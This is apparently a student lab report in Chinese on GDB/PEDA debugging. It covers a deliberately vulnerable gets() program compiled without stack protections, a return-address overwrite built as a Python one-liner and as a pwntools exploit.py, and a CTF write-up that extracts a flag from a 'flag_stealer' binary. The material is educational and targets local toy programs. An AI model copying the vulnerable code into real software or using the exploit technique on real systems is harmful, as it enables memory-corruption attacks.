# 第七章： 调试应用的高级方法

## 一、 实验目的


本次实验旨在通过对二进制程序的调试与漏洞利用过程，进一步理解程序运行时的内存布局、函数调用过程以及栈溢出漏洞的形成原因。通过使用 GDB 与 PEDA 插件，对目标程序进行动态调试，观察寄存器、栈空间、代码段等运行状态，掌握利用调试工具分析程序执行流程和定位漏洞位置的方法。

同时，本实验通过构造存在 `gets()` 函数调用的漏洞程序，分析缓冲区溢出对程序返回地址的影响，学习如何使用 PEDA 的 pattern 功能计算溢出偏移量，并通过覆盖返回地址的方式改变程序的正常执行流程，使程序跳转到指定的隐藏函数。

此外，本实验还要求使用 pwntools 编写自动化漏洞利用脚本，将手工构造 payload、启动进程、发送输入和接收输出等步骤脚本化，从而掌握二进制漏洞利用的基本流程，提高漏洞分析与利用的自动化能力。通过本次实验，可以进一步理解在有源码和无源码情况下进行程序分析的不同方法，为后续逆向分析和漏洞挖掘实验奠定基础。


## 二、 实验环境

| 环境类别 | 具体配置 |
|---|---|
| 宿主机环境 | Windows 主机 |
| 虚拟化平台 | VirtualBox |
| 虚拟机操作系统 | Kali Linux |
| 调试工具 | GDB、PEDA |
| 漏洞利用工具 | pwntools |
| 编程语言 | C、Python |
| 编译器 | GCC |
| 主要命令行环境 | Kali Linux Terminal |
| 实验程序 | `vuln.c`、`vuln`、`exploit.py` |


## 三、 实验内容

### （一）实验一：使用 PEDA 加强 GDB 调试
PEDA 是 GDB 的一个 Python 插件，全称为 Python Exploit Development Assistance for GDB，主要用于增强 GDB 在漏洞利用和逆向分析中的调试能力。PEDA 可以提供彩色输出、寄存器自动显示、栈内容查看、内存搜索、模式字符串生成与搜索等功能，能够帮助分析程序的内存布局和执行流程。

首先安装 GDB：
```bash
sudo apt-get update
sudo apt-get install -y gdb
```


下载 PEDA：
```bash
git clone https://github.com/longld/peda.git ~/peda
```


将 PEDA 加入 GDB 的启动配置文件 .gdbinit：
```bash
echo "source ~/peda/peda.py" >> ~/.gdbinit
```
使用以下命令启动 GDB 进行验证：
```bash
gdb -q
```

**【实验问题】PEDA 加载时报错：No module named 'six.moves'**
在首次运行 gdb -q 时，GDB 没有进入 gdb-peda$，而是显示普通的(gdb)，同时出现错误：


该错误说明 PEDA 在加载过程中依赖 Python 的 six 模块，但当前 GDB 内置 Python 环境没有正确加载该模块。为确认问题来源，使用以下命令查看 GDB 内置 Python 的版本和搜索路径：

```bash
pingyue@pingyue-VirtualBox:~/0x07$ gdb -q --nx -ex "python import sys; print(sys.version); print(sys.path)" -ex quit
3.14.4 (main, Apr  8 2026, 04:02:31) [GCC 15.2.0]
['/usr/share/gdb/python', '/usr/lib/python314.zip', '/usr/lib/python3.14', '/usr/lib/python3.14/lib-dynload', '/usr/local/lib/python3.14/dist-packages', '/usr/lib/python3/dist-packages']
```
随后进一步测试 GDB 是否能正常导入 six.moves：
```bash
pingyue@pingyue-VirtualBox:~/0x07$ gdb -q --nx -ex "python import six; print(six.__file__); import six.moves; print('six.moves ok')" -ex quit
/usr/lib/python3/dist-packages/six.py
six.moves ok
```
这说明 GDB 本身可以正常找到 six.moves，问题并不在系统 Python 环境，而是 PEDA 版本与当前 Python 环境之间存在兼容性问题。

于是更换 PEDA 版本：
```bash
git clone https://github.com/zachriggle/peda.git ~/peda
```
six.moves 的问题消失，但又出现新的错误：


这是因为当前 Ubuntu 中 GDB 使用的是 Python 3.14，而较旧版本的 Python 中可以使用 `collections.Callable`，但在新版 Python 中，该写法已经不再适用，应改为`collections.abc.Callable`，因此需要修改对应的代码并补充导入语句。

最终再次执行：
```bash
gdb -q
```

✔ 成功进入！

#### 步骤1：创建测试程序

##### 1.1 实验对象设计

在完成 GDB 与 PEDA 插件的安装和配置后，首先根据实验要求创建用于调试分析的测试程序。本步骤的主要目的是构造一个具有典型栈溢出风险的 C 语言程序，为后续使用 PEDA 分析程序内存布局、栈结构以及控制流劫持过程提供实验对象。

##### 1.2 创建源码文件

首先在 Ubuntu 终端中进入实验目录：

```bash
cd ~/0x07
```

随后使用 `nano` 编辑器创建源代码文件 `vuln.c`：

```bash
nano vuln.c
```

在文件中输入如下测试程序：

```c
#include <stdio.h>
#include <string.h>

void secret_function() {
    printf("Congratulations! You've found the secret function!\n");
}

void echo_input() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer); // 不安全的函数，存在栈溢出风险
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Welcome to the vulnerable program!\n");
    echo_input();
    printf("Program execution completed normally.\n");
    return 0;
}
```

输入完成后，使用 `Ctrl + O` 保存文件，按 `Enter` 确认文件名，再使用 `Ctrl + X` 退出编辑器。之后通过以下命令查看文件是否创建成功：

```bash
ls
cat vuln.c
```


##### 1.3 程序逻辑与漏洞点说明

从程序结构来看，`main()` 函数是程序入口，首先输出欢迎信息，然后调用 `echo_input()` 函数接收用户输入，最后在正常执行路径下输出程序结束信息。`echo_input()` 函数中定义了一个长度为 64 字节的字符数组 `buffer`，并使用 `gets(buffer)` 从标准输入读取用户输入。由于 `gets()` 函数不会检查输入长度，当用户输入内容超过 `buffer` 的大小时，多余的数据可能继续覆盖栈上的其他内容，例如保存的基址指针和返回地址，因此该函数存在明显的栈溢出风险。

程序中的 `secret_function()` 函数在正常执行流程中并不会被 `main()` 直接调用。该函数输出字符串 `Congratulations! You've found the secret function!`，可以作为后续漏洞利用是否成功的判断依据。在后续实验中，将通过 PEDA 分析栈布局，确定缓冲区到返回地址之间的偏移量，并尝试构造特定输入覆盖返回地址，使程序跳转执行 `secret_function()`，从而验证栈溢出漏洞对程序控制流的影响。

本步骤完成后，实验获得了后续调试和漏洞利用所需的目标程序源码，为下一步编译程序并关闭相关安全保护机制奠定了基础。

---

#### 步骤2：编译程序

##### 2.1 编译目标与参数设置

在完成测试程序 `vuln.c` 的创建后，需要对其进行编译。为了便于后续调试和栈溢出漏洞分析，本实验按照实验手册要求，在编译时关闭部分安全保护机制，使程序的函数地址和栈行为更易于观察和控制。

在实验目录 `~/0x07` 下执行如下编译命令：

```bash
gcc -g -fno-stack-protector -z execstack -no-pie -Wno-implicit-function-declaration -Wno-deprecated-declarations vuln.c -o vuln
```

##### 2.2 编译参数说明

该命令中各参数含义如下：

| 参数                                   | 作用                                       |
| ------------------------------------ | ---------------------------------------- |
| `-g`                                 | 生成调试信息，便于 GDB 调试时显示源代码行号、函数名和变量信息        |
| `-fno-stack-protector`               | 关闭栈保护机制，使程序不会插入 Stack Canary，从而便于观察栈溢出效果 |
| `-z execstack`                       | 允许栈可执行，降低后续漏洞利用实验中的保护限制                  |
| `-no-pie`                            | 禁用 PIE，使程序加载地址固定，便于直接使用函数地址              |
| `-Wno-implicit-function-declaration` | 关闭隐式函数声明警告                               |
| `-Wno-deprecated-declarations`       | 关闭弃用函数相关警告                               |

##### 2.3 编译提示与运行验证

在编译过程中，终端提示：

```text
the `gets' function is dangerous and should not be used.
```


该提示并非编译错误，而是由于程序中使用了不安全的 `gets()` 函数。`gets()` 不会检查输入长度，容易导致缓冲区溢出，因此现代编译环境会对其进行警告。本实验正是利用 `gets(buffer)` 构造栈溢出场景，因此该警告符合实验预期。

编译完成后，通过如下命令查看生成文件：

```bash
ls -l
```
可以看到当前目录下生成了可执行文件 `vuln`，说明程序编译成功。随后运行程序进行简单测试：

```bash
./vuln
```

程序输出欢迎信息并提示输入内容。输入普通字符串后，程序能够正常回显输入并结束运行，说明测试程序在正常输入情况下可以顺利执行。该步骤完成后，得到后续 GDB/PEDA 调试所需的目标二进制文件 `vuln`。

---

#### 步骤3：使用 PEDA 进行基本调试

##### 3.1 启动调试并检查保护机制

完成程序编译后，使用带 PEDA 插件的 GDB 对目标程序进行调试。首先在实验目录下执行：

```bash
gdb -q ./vuln
```

成功进入 GDB 后，终端显示 `gdb-peda$` 提示符，说明 PEDA 插件已经正常加载。随后使用 PEDA 提供的 `checksec` 命令查看程序的安全保护机制：

```bash
checksec
```

通过该命令可以观察目标程序是否启用了 Canary、NX、PIE、RELRO 等保护机制。由于编译时使用了 `-fno-stack-protector`、`-z execstack` 和 `-no-pie` 等参数，因此程序的栈保护、位置无关执行等安全机制处于关闭状态。这为后续分析栈溢出和构造控制流劫持提供了便利。

##### 3.2 查看函数符号和目标地址

接着使用以下命令查看程序中的函数列表：

```bash
info functions
```

在函数列表中可以看到 `main`、`echo_input` 和 `secret_function` 等函数。其中，`main()` 是程序入口函数，`echo_input()` 是包含栈溢出风险的输入处理函数，`secret_function()` 是后续希望通过修改返回地址跳转执行的目标函数。

为了确定目标函数地址，继续执行：

```bash
p secret_function
```

终端输出如下结果：

```text
$1 = {void (void)} 0x401176 <secret_function>
```

由此可知，`secret_function` 的地址为 `0x401176`。由于编译时关闭了 PIE，程序地址相对固定，因此该地址可以在后续构造 payload 时直接使用。

##### 3.3 设置断点并单步进入漏洞函数

随后在 `main()` 函数处设置断点并运行程序：

```bash
break main
run
```

程序运行后停在 `main()` 函数处，终端显示：

```text
Breakpoint 1, main() at vuln.c:16
```

此时 PEDA 自动显示当前寄存器状态、代码执行位置和栈相关信息。与普通 GDB 相比，PEDA 能够在程序运行到断点后自动展示当前执行上下文，使调试人员能够更加直观地观察寄存器、指令和栈内容。

使用 PEDA 命令查看内存和寄存器信息。首先执行：

```bash
aslr off
```

该命令用于关闭地址空间布局随机化，使调试过程中的地址更加稳定。随后执行单步调试命令：

```bash
next
step
```

其中，`next` 表示单步执行但不进入函数内部，`step` 表示单步执行并进入函数内部。在本实验中，执行 `next` 后程序输出：

```text
Welcome to the vulnerable program!
```

并运行到 `echo_input()` 调用处。



随后执行 `step`，程序进入 `echo_input()` 函数内部，并停在：

```text
echo_input () at vuln.c:10
10      printf("Enter some text: ");
```


这说明调试过程已经进入包含漏洞的输入函数。

##### 3.4 查看栈布局和内存内容

进入 `echo_input()` 后，需要查看当前栈布局。实验手册中给出的命令为：

```bash
stack 20
```

但在当前 PEDA 版本中，执行 `stack 20` 和 `telescope 20` 时只显示命令使用说明，未能直接输出栈内容。因此本实验使用 GDB 原生命令完成等价操作：

```bash
x/20gx $rsp
```


该命令表示从当前栈顶寄存器 `$rsp` 指向的位置开始，以十六进制形式连续显示 20 个 8 字节内存单元。执行后可以看到当前栈顶附近的地址和值，例如栈地址、返回地址以及相关运行时数据。通过该结果可以观察进入 `echo_input()` 后栈空间的基本布局。

最后，按照实验手册要求查看内存中的字符串和栈顶十六进制内容。首先执行：

```bash
find "/bin/sh"
```

该命令用于在进程内存中搜索字符串 `/bin/sh`。本次实验中搜索结果显示在 libc 中找到了 `/bin/sh` 字符串，说明 PEDA 能够对进程内存进行字符串搜索。随后执行：

```bash
hexdump $rsp
```


该命令以十六进制形式显示当前栈顶内容。输出结果展示了 `$rsp` 附近内存的字节级内容，有助于进一步理解栈空间中数据的实际存储形式。

通过本步骤，完成了使用 PEDA 对目标程序进行基本调试的过程。实验中观察了程序保护机制、函数符号、目标函数地址、断点运行情况、寄存器状态、栈布局以及内存十六进制内容，为后续使用 PEDA 分析栈溢出偏移量和构造漏洞利用 payload 奠定了基础。

---

#### 步骤4：使用 PEDA 分析栈溢出

##### 4.1 定位危险输入位置

在完成程序的基本调试后，继续使用 PEDA 对 `echo_input()` 函数中的栈溢出漏洞进行分析。本步骤的主要目标是通过特殊模式字符串确定从缓冲区起始位置到返回地址之间的偏移量，为后续构造有效 payload 做准备。

首先，对 `echo_input()` 函数进行反汇编，查看 `gets()` 函数调用位置：

```bash id="tkz9fb"
disas echo_input
```

反汇编结果如下：



从反汇编结果可以看到，`gets@plt` 的调用地址为 `0x4011bc`，其下一条指令地址为 `0x4011c1`。因此，按照实验手册要求，在 `gets()` 调用之后设置断点：

```bash id="zj1x41"
break *0x4011c1
```

终端显示断点设置成功：

```text id="akk6aw"
Breakpoint 1 at 0x4011c1: file vuln.c, line 12.
```

随后运行程序：

```bash id="pw0kbf"
run
```

##### 4.2 运行到输入点并构造模式字符串

程序输出欢迎信息并等待用户输入：

```text id="vh5zfo"
Welcome to the vulnerable program!
Enter some text:
```

接下来需要提供一个特殊模式字符串，用于判断栈溢出后寄存器和返回地址被覆盖的位置。实验手册中给出的命令为：

```bash id="e277l8"
pattern create 100
```

但在当前 PEDA 版本中，执行 `pattern create 100` 时只显示命令帮助信息，无法直接生成模式字符串。因此，本实验使用当前 PEDA 版本支持的等价命令：

```bash id="nl7uk9"
pattern_create 100
```

生成的 100 字节特殊模式字符串如下：

```text id="dqujdz"
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```

重新运行程序后，将上述特殊模式字符串粘贴到程序输入处。程序读入字符串后停在之前设置的断点处：

```text id="k0exp8"
Breakpoint 1, echo_input() at vuln.c:12
12      printf("You entered: %s\n", buffer);
```
这说明程序已经成功执行完 `gets()`，特殊模式字符串已经被写入 `buffer`。

##### 4.3 触发崩溃并计算偏移量

随后继续执行程序：

```bash id="8scucu"
continue
```

程序输出输入内容后发生段错误：

```text id="tq4l4e"
Program received signal SIGSEGV, Segmentation fault.
```

调试现场中可以看到，寄存器已经受到特殊模式字符串影响。其中 `RBP` 的值被覆盖为：

```text id="dc3g4k"
RBP: 0x4141334141644141
```

该十六进制值对应的字符串片段为：

```text id="pk4s5x"
AAdAA3AA
```

实验手册中使用 `pattern search` 自动搜索当前寄存器中的模式偏移量。但在当前 PEDA 版本中，`pattern search` 和 `pattern_search` 命令均只显示帮助信息，未能自动输出搜索结果。因此，本实验进一步使用 `pattern_offset` 命令手动查询该字符串片段在特殊模式中的偏移位置：

```bash id="hm2lg5"
pattern_offset AAdAA3AA
```

输出结果为：

```text id="g1r1wj"
AAdAA3AA found at offset: 64
```


该结果表明，保存的 `RBP` 从输入模式字符串的第 64 字节处开始被覆盖。结合源代码可知，`echo_input()` 函数中定义了如下局部缓冲区：

```c id="b3b22f"
char buffer[64];
```

在 64 位程序中，函数栈帧中局部缓冲区之后通常是保存的 `RBP`，保存的 `RBP` 占 8 字节，其后才是函数返回地址。因此，返回地址相对于缓冲区起始位置的偏移量为：

```text id="5sr2gu"
buffer[64] + saved RBP[8] = 72
```

即：

```text id="sqcg20"
返回地址偏移量 = 72 字节
```

这与实验手册中 `pattern search` 示例给出的 `[RSP] --> offset 72` 结论一致。由此可知，在后续构造 payload 时，应先填充 72 字节数据，再追加目标函数地址，从而覆盖原返回地址并控制程序执行流。

通过本步骤，成功利用特殊模式字符串触发栈溢出，并确定了从缓冲区起始位置到返回地址的偏移量为 72 字节。该结果为下一步构造 payload 跳转到 `secret_function()` 提供了关键依据。

#### 步骤5：使用 PEDA 执行简单的漏洞利用

##### 5.1 确定 payload 结构

在步骤4中，已经通过特殊模式字符串分析得到返回地址相对于缓冲区起始位置的偏移量为 72 字节；在步骤3中，通过 `p secret_function` 得到目标函数 `secret_function()` 的地址为 `0x401176`。因此，本步骤根据上述两个关键参数构造 payload，使程序在 `echo_input()` 函数返回时跳转到 `secret_function()`，从而验证栈溢出漏洞利用是否成功。

本次构造 payload 的基本结构为 72 字节填充数据 + secret_function 函数地址。其中，前 72 字节用于填充 `buffer`、覆盖保存的 `RBP` 并到达返回地址位置；后 8 字节用于覆盖原返回地址，使程序返回时跳转到 `secret_function()`。由于当前程序为 64 位小端序 ELF 程序，因此目标函数地址需要按照小端序写入。

##### 5.2 生成并投递 payload

首先退出 GDB，回到普通终端，并在实验目录 `~/0x07` 下执行如下命令生成 `payload.txt` 文件：

```bash id="6h66vn"
python3 -c 'import struct; open("payload.txt", "wb").write(b"A"*72 + struct.pack("<Q", 0x401176))'
```

该命令中，`b"A"*72` 表示生成 72 个字节的填充数据，`struct.pack("<Q", 0x401176)` 表示将 `secret_function()` 的地址 `0x401176` 按照 64 位小端格式打包为 8 字节二进制数据。由于 payload 中包含不可见的二进制地址字节，因此使用 `"wb"` 方式写入文件，避免文本编码影响 payload 内容。

生成 payload 后，使用以下命令查看文件信息：

```bash id="effykx"
ls -l payload.txt
```

输出结果显示 `payload.txt` 大小为 80 字节，说明 payload 由 72 字节填充数据和 8 字节目标地址组成，符合预期。

随后，在普通终端中直接运行目标程序，并将 `payload.txt` 作为标准输入传入：

```bash id="2r5cpg"
./vuln < payload.txt
```

程序输出如下关键信息：

```text id="p3indq"
Welcome to the vulnerable program!
Enter some text: You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv@
Congratulations! You've found the secret function!
```

其中，`Congratulations! You've found the secret function!` 是 `secret_function()` 中的输出内容。该字符串的出现说明程序执行流已经被成功劫持，并跳转到了原本不会被正常调用的 `secret_function()` 函数。最后出现的段错误属于预期现象，因为 payload 覆盖了原函数返回地址，虽然程序成功跳转并执行了 `secret_function()`，但在该函数执行结束后，栈结构已经被破坏，程序无法继续返回到合法地址，因此发生异常终止。

##### 5.3 在 GDB 中验证异常状态

为了进一步观察漏洞利用后的程序状态，继续在 GDB/PEDA 中运行该 payload：

```bash id="kjqril"
gdb -q ./vuln
```

进入 `gdb-peda$` 后执行：

```bash id="0le59s"
run < payload.txt
```

GDB 中同样输出：

```text id="86kpdb"
Congratulations! You've found the secret function!
```

随后程序接收到异常信号：

```text id="4s5r2g"
Program received signal SIGILL, Illegal instruction.
```

在实验手册示例中，程序异常通常表现为 `SIGSEGV, Segmentation fault`；本次实验中显示为 `SIGILL, Illegal instruction`。二者本质上都说明程序在执行完 `secret_function()` 后，由于栈空间已经被 payload 破坏，后续返回地址或指令地址异常，导致程序无法继续正常执行。区别仅在于异常终止时 CPU 解释到的是非法地址还是非法指令，不影响漏洞利用成功的判断。

从 GDB/PEDA 显示的寄存器状态也可以看到，`RBP` 被覆盖为：

```text id="zu23uo"
RBP: 0x4141414141414141
```

其中 `0x41` 对应 ASCII 字符 `A`，说明保存的基址指针已经被 payload 中的填充字符覆盖。同时，程序已经成功输出 `secret_function()` 中的提示信息，证明返回地址已被覆盖为目标函数地址 `0x401176`，程序控制流被成功修改。

综上，本步骤通过构造 `72` 字节填充数据加 `secret_function()` 地址的 payload，成功实现了对函数返回地址的覆盖，使程序跳转执行隐藏函数。实验结果验证了步骤4中得到的返回地址偏移量正确，也说明在关闭栈保护和 PIE 等安全机制后，基于栈溢出的控制流劫持可以被成功实现。

### （二）实验二：利用 pwntools 进行漏洞利用

在实验一中，已经通过 PEDA 手动分析得到了栈溢出利用所需的两个关键参数：一是从缓冲区起始位置到返回地址之间的偏移量为 72 字节；二是目标函数 `secret_function()` 的地址为 `0x401176`。在实验二中，进一步使用 pwntools 编写 Python 脚本，将手动漏洞利用过程自动化，实现对目标程序 `vuln` 的自动运行、地址解析、payload 构造、输入发送和结果接收。

#### 步骤一：安装并验证 pwntools

##### 1.1 安装实验依赖

首先，根据实验手册要求，在 Ubuntu 环境中安装 pwntools。pwntools 是一个面向 CTF 和二进制漏洞利用的 Python 库，能够提供进程交互、ELF 文件解析、地址打包、payload 构造等功能，可以简化漏洞利用脚本的编写过程。

在终端中执行如下命令安装相关依赖：

```bash
sudo apt-get update
sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
```

##### 1.2 验证 pwntools 可用性

为了进一步验证安装结果，执行：

```bash
python3 -c 'from pwn import *; print(pwnlib.version)'
```


本步骤完成后，实验环境中已经具备使用 pwntools 进行二进制程序自动化交互和漏洞利用的能力。

#### 步骤二：编写并运行 exploit.py 漏洞利用脚本

##### 2.1 创建自动化利用脚本

在完成 pwntools 安装后，进入实验目录 `~/0x07`，创建漏洞利用脚本 `exploit.py`：

```bash
cd ~/0x07
nano exploit.py
```

在脚本中写入如下代码：

```python
#!/usr/bin/env python3
from pwn import *

# 设置二进制文件路径
binary_path = './vuln'

# 创建进程
p = process(binary_path)

# 不等待特定文本，直接接收一段时间的输出
p.recv(timeout=1)

# 查找 secret_function 地址
elf = ELF(binary_path)
secret_function_addr = elf.symbols['secret_function']
log.info(f"Secret function地址: {hex(secret_function_addr)}")

# 构造 payload: 填充字符 + secret_function 地址
offset = 72
payload = b'A' * offset + p64(secret_function_addr)

# 发送 payload
p.sendline(payload)

# 接收并输出程序响应
result = p.recvall(timeout=2).decode(errors='replace')
print(result)
```


##### 2.2 脚本核心逻辑说明

该脚本首先通过：

```python
binary_path = './vuln'
p = process(binary_path)
```

指定并启动目标程序 `vuln`。这一步相当于在终端中手动执行 `./vuln`，但通过 pwntools 创建进程后，可以在脚本中继续向程序发送输入并接收输出。

随后，脚本使用：

```python
elf = ELF(binary_path)
secret_function_addr = elf.symbols['secret_function']
```

自动解析目标 ELF 文件，并从符号表中提取 `secret_function()` 的地址。与实验一中手动在 GDB/PEDA 中执行 `p secret_function` 获取地址相比，pwntools 能够自动完成这一过程，提高了漏洞利用脚本的自动化程度。

接下来，脚本根据实验一中得到的偏移量构造 payload：

```python
offset = 72
payload = b'A' * offset + p64(secret_function_addr)
```

其中，`b'A' * offset` 用于填充缓冲区并覆盖保存的 `RBP`，使输入数据到达返回地址位置；`p64(secret_function_addr)` 用于将 `secret_function()` 的地址转换为 64 位小端格式，从而正确覆盖原返回地址。payload 的整体结构为：

```text
72 字节填充数据 + secret_function 函数地址
```

构造完成后，脚本使用：

```python
p.sendline(payload)
```

将 payload 发送给目标程序，相当于在程序提示输入时手动输入 payload 并回车。最后通过：

```python
result = p.recvall(timeout=2).decode(errors='replace')
print(result)
```

接收程序执行后的全部输出，并打印在终端中。

##### 2.3 运行脚本并验证结果

保存脚本后，执行：

```bash
python3 exploit.py
```

运行结果中可以看到 pwntools 自动启动本地进程，并显示目标 ELF 文件的安全属性，例如程序架构、RELRO、Canary、NX、PIE、是否包含调试信息等。同时，脚本输出了自动解析得到的 `secret_function` 地址，并在发送 payload 后接收程序输出。

终端中出现如下关键信息：

```text
Congratulations! You've found the secret function!
```

说明漏洞利用成功，程序执行流已经被 payload 劫持，并成功跳转到了 `secret_function()` 函数。程序随后可能由于栈结构被破坏而异常终止，这是预期现象，不影响漏洞利用成功的判断。

通过本步骤，实验将实验一中手动完成的地址查询、payload 构造和输入发送过程自动化。pwntools 不仅能够简化 ELF 地址解析和字节序转换，还能够统一管理程序交互过程，使漏洞利用过程更加高效、可复现。

---

### （三）扩展实验三：尝试自己逆向分析一个二进制程序


本实验分析的目标文件为：`flag_stealer`。

首先将该文件放置在实验目录 `~/0x07` 下，并赋予执行权限：

```bash
chmod +x flag_stealer
```


#### 步骤1：文件基本信息分析

##### 1.1 查看文件类型

首先使用 `file` 命令查看目标文件的基本属性：

```bash
file flag_stealer
```

终端输出结果为：

```text
flag_stealer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3cea103f07fa5ce8e2ee0a3d305029cec9f3ae13, for GNU/Linux 3.2.0, with debug_info, not stripped
```


##### 1.2 判断逆向分析条件

根据输出结果可知，`flag_stealer` 是一个 64 位 Linux ELF 可执行文件，架构为 x86-64，采用动态链接方式运行。文件中包含 `debug_info`，且状态为 `not stripped`，说明该程序没有去除符号表和调试信息。因此，在后续 GDB/PEDA 分析中，可以直接看到函数名和部分源码级信息，这对逆向分析较为有利。

---

#### 步骤2：静态字符串分析

##### 2.1 提取疑似 flag 字符串

为了快速判断程序中是否直接包含可打印的 flag 字符串，使用 `strings` 命令提取二进制文件中的可打印字符串，并通过 `grep` 筛选包含 `flag` 的内容：

```bash
strings flag_stealer | grep flag
```

输出结果为：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
flag_stealer.c
flag_stealer.c
```

由此可以直接发现程序中包含疑似 flag 的字符串：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

##### 2.2 查看完整字符串线索

随后继续执行：

```bash
strings flag_stealer
```

在完整字符串输出中，可以看到与程序逻辑相关的内容，例如：

```text
Please enter some short strings:
Welcome to the challenge!
Program execution completed normally.
vulnerable
main
success
gets
```


这些信息表明程序中存在 `main`、`vulnerable` 和 `success` 等函数，并且使用了不安全的 `gets` 函数。由此初步判断，该二进制程序的结构与实验一中的栈溢出样例程序类似，可能通过 `vulnerable()` 函数读取输入，并通过 `success()` 函数输出隐藏 flag。

---

#### 步骤3：程序保护机制分析

##### 3.1 使用 checksec 查看保护状态

为了进一步分析程序的安全保护机制，使用 GDB/PEDA 打开目标程序：

```bash
gdb -q ./flag_stealer
```

进入 `gdb-peda$` 后执行：

```bash
checksec
```

输出结果显示：

```text
CANARY  : disabled
FORTIFY : disabled
NX      : disabled
PIE     : disabled
RELRO   : Partial
```


##### 3.2 分析保护机制对利用的影响

根据该结果可知，目标程序关闭了多项常见安全保护机制。其中，`CANARY` 关闭说明程序没有启用栈溢出保护；`NX` 关闭说明栈可能可执行；`PIE` 关闭说明程序加载地址固定，函数地址在多次运行中相对稳定。这些特征说明该程序便于进行二进制调试和漏洞利用分析，也进一步印证其与前面实验中的漏洞样例程序具有相似结构。

---

#### 步骤4：函数符号分析

##### 4.1 查看自定义函数和库函数

继续在 GDB/PEDA 中执行：

```bash
info functions
```

输出结果中显示了程序自定义函数：

```text
File flag_stealer.c:
16: int main(int, char **);
4:  void success();
8:  void vulnerable();
```

此外，在非调试符号中可以看到：

```text
puts@plt
printf@plt
gets@plt
```


##### 4.2 推断程序功能分工

由此可知，程序主要包含三个自定义函数：`main()`、`success()` 和 `vulnerable()`。其中，`main()` 是程序入口函数，`vulnerable()` 很可能是包含输入逻辑的函数，而 `success()` 可能用于输出隐藏 flag。同时，程序中调用了 `gets@plt`，说明其存在不安全输入操作，可能导致栈溢出。

---

#### 步骤5：main 函数反汇编分析

##### 5.1 反汇编入口函数

执行如下命令反汇编 `main()` 函数：

```bash
disas main
```

关键反汇编结果如下：

```asm
0x00000000004011ed <+29>: call   0x401060 <puts@plt>
0x00000000004011f7 <+39>: call   0x401190 <vulnerable>
0x0000000000401206 <+54>: call   0x401060 <puts@plt>
```


##### 5.2 梳理主函数执行流程

从反汇编结果可以看出，`main()` 函数首先调用 `puts()` 输出欢迎信息，随后调用 `vulnerable()` 函数，最后再次调用 `puts()` 输出程序正常结束信息。因此，程序主流程可以概括为：

```c
main() {
    puts("Welcome to the challenge!");
    vulnerable();
    puts("Program execution completed normally.");
}
```

这表明程序正常执行路径会进入 `vulnerable()` 函数，但不会直接调用 `success()` 函数。

---

#### 步骤6：vulnerable 函数反汇编分析

##### 6.1 定位输入函数调用

继续执行：

```bash
disas vulnerable
```

关键反汇编结果如下：

```asm
0x0000000000401198 <+8>:  sub    rsp,0x10
0x00000000004011ab <+27>: call   0x401070 <printf@plt>
0x00000000004011b0 <+32>: lea    rax,[rbp-0xc]
0x00000000004011bc <+44>: call   0x401080 <gets@plt>
0x00000000004011c8 <+56>: call   0x401060 <puts@plt>
```


##### 6.2 判断漏洞形成原因

其中，`sub rsp,0x10` 表示函数在栈上开辟了局部空间，`lea rax,[rbp-0xc]` 表示将局部缓冲区地址传递给后续输入函数。最关键的是：

```asm
call 0x401080 <gets@plt>
```

该指令说明 `vulnerable()` 函数使用了 `gets()` 读取用户输入。由于 `gets()` 不会检查输入长度，若输入内容超过缓冲区大小，就可能覆盖保存的 `RBP` 和返回地址，从而产生栈溢出风险。因此，该函数是程序中主要的漏洞点。

---

#### 步骤7：success 函数反汇编分析

##### 7.1 分析隐藏函数输出逻辑

继续反汇编 `success()` 函数：

```bash
disas success
```

关键反汇编结果如下：

```asm
0x000000000040117e <+8>:  lea    rax,[rip+0xe83]        # 0x402008
0x0000000000401185 <+15>: mov    rdi,rax
0x0000000000401188 <+18>: call   0x401060 <puts@plt>
```


##### 7.2 关联 flag 字符串位置

从结果可以看出，`success()` 函数将地址 `0x402008` 处的字符串传递给 `puts()` 输出。结合前面 `strings` 命令得到的结果，可以判断该地址附近保存的字符串即为隐藏的 flag。由于 `success()` 不在正常执行路径中被调用，因此它相当于隐藏的目标函数。若通过栈溢出将返回地址覆盖为 `success()` 的地址，就可以让程序执行该函数并输出 flag。

---

#### 步骤8：Flag 获取结果

##### 8.1 确认最终 flag

通过 `strings` 静态分析，成功提取到隐藏字符串：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

结合 GDB/PEDA 中对 `success()` 函数的反汇编结果可知，该字符串位于程序的只读数据段中，并由 `success()` 函数通过 `puts()` 输出。因此，可以确认本实验的最终 flag 为：

```text
flag{208f1b1289da972682cbc81c8684fcc8}
```

##### 8.2 小结逆向分析过程

本实验通过静态分析和动态调试相结合的方式完成了对未知二进制程序 `flag_stealer` 的逆向分析。首先使用 `file` 命令确认目标文件为带调试信息且未去符号的 64 位 ELF 文件；随后通过 `strings` 命令快速发现程序中的隐藏 flag 字符串；接着使用 GDB/PEDA 的 `checksec`、`info functions` 和 `disas` 命令进一步分析程序保护机制、函数结构和调用关系。反汇编结果显示，程序中 `vulnerable()` 函数调用了不安全的 `gets()` 函数，存在栈溢出风险；`success()` 函数则负责输出隐藏 flag。最终确认隐藏 flag 为 `flag{208f1b1289da972682cbc81c8684fcc8}`。通过本实验，进一步加深了对 ELF 文件静态分析、函数反汇编和栈溢出漏洞结构的理解。

## 四、实验问题

### （一）PEDA 插件与 Python 版本兼容问题

在实验开始阶段，PEDA 加载时曾出现 `No module named 'six.moves'` 等报错，导致 GDB 没有进入预期的 `gdb-peda$` 提示符。通过检查 GDB 内置 Python 的版本和 `sys.path`，确认系统 Python 环境本身能够导入 `six.moves`，问题主要来自 PEDA 版本与当前 Python 环境之间的兼容性。随后更换 PEDA 版本，并针对 `collections.Callable` 在新版本 Python 中不可用的问题进行修正，将其改为 `collections.abc.Callable`，最终成功加载 PEDA。

